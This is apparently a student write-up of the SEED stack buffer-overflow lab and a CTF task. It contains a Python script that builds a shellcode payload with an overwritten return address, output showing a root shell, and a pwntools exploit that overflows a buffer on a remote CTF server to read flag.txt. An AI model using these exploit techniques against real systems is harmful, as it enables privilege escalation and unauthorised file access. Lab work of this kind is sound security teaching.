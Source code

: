 ```python
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload

# Return address is well inside the payload, but before the start of
# the shell code
ret    = 0xffffc878+256
# 108 = $ebp - &buffer
# +4 because return address comes after the frame pointer ($ebp)
offset = 108+4

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 
##################################################################

# Write the content to a file
with open('badfile', 'wb') as f:
  f.write(content)
```

```sh
[11/21/21]seed@VM:~/.../code$ ./stack-L1
Input size: 517
# id -u
0
#
```

After modifying the Python script with these values, we managed to obtain a root shell. We chose a return address approximately in the middle of the payload ($ebp + 256), so that our exploit could still work when running the program in release mode (as mentioned in note 2, the value of $ebp should be higher, so the extra 256 bytes can shield us against this fact).

## CTF - Task 1

### Questions
* Is there a file that the program opens and reads?
    * Yes, the program will open the file specified in the `meme_file` variable (by default `mem.txt`).
* Is there a way to control the file that will be opened?
    * If we can alter the value in `meme_file` we can make the program open a file of our choosing.
* Is there a buffer overflow? If so, what can you do about it?
    * Using the `scanf` function, the function reads up to 28 bytes to the 20-byte `buffer` variable. If we think about the `main` function's stack frame, since `meme_file` and `buffer` are local variables and are declared in that order, the extra 8 bytes read by `scanf` can be used to overwrite the contents of the `meme_file` array.

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"00000000000000000000flag.txt")
r.interactive()
```
